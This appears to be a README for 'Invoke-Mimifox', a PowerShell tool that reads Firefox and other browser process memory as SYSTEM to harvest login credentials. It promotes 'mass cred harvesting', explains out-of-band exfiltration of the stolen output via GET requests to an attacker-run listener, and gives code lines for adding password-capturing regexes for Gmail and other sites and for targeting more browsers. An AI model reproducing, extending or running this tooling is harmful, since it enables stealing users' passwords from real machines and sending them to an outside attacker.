 # Invoke-Mimifox
    ./Invoke-Mimifox.ps1 invoke-mimifox
![alt](https://i.imgur.com/8eEmUjR.png)

The year is 2020 and alas no longer Mimikittenz works well or progressively on any machines in a real work environment. Mimifox is a little bit more future friendly, a couple of edits to the original code and an added OOB exfiltration option makes life a little easier for mass cred harvesting and blind PS attacks. Read the memory of a user process as system, and steal all of the creds.

## Out Of Bounds Exfil
Just set a listener running on port 80 and be sure to change the IP addresses in the source code to your attacking IP. Basically just forces a get request with the standard out of the programme and appends `/?<all of your goodness>`. Tail the logs and viola!

## Adding Custom Regexes & Processes
    [mimikittenz.MemProcInspector]::AddRegex("Gmail","identifierInput=.([A-Za-z0-9$&+,:;=?@#|'<>.^*() %!\-]+)&password=.([A-Za-z0-9$&+,:;=?@#|'<>.^*() %!\-]+)")
Use something like Burp or tamperdata to gather the parameters passed when logging into a certain application and pass them in this format within the source. Currently only grabs Gmail and Github creds but the possiblities are..  _**Endless**_

The currently searched processes are defined within:

    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox")

You can change this to incorpate more cote-du-jour browsers or processes of choice:

    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox","chrome","iexplore","meincraft")

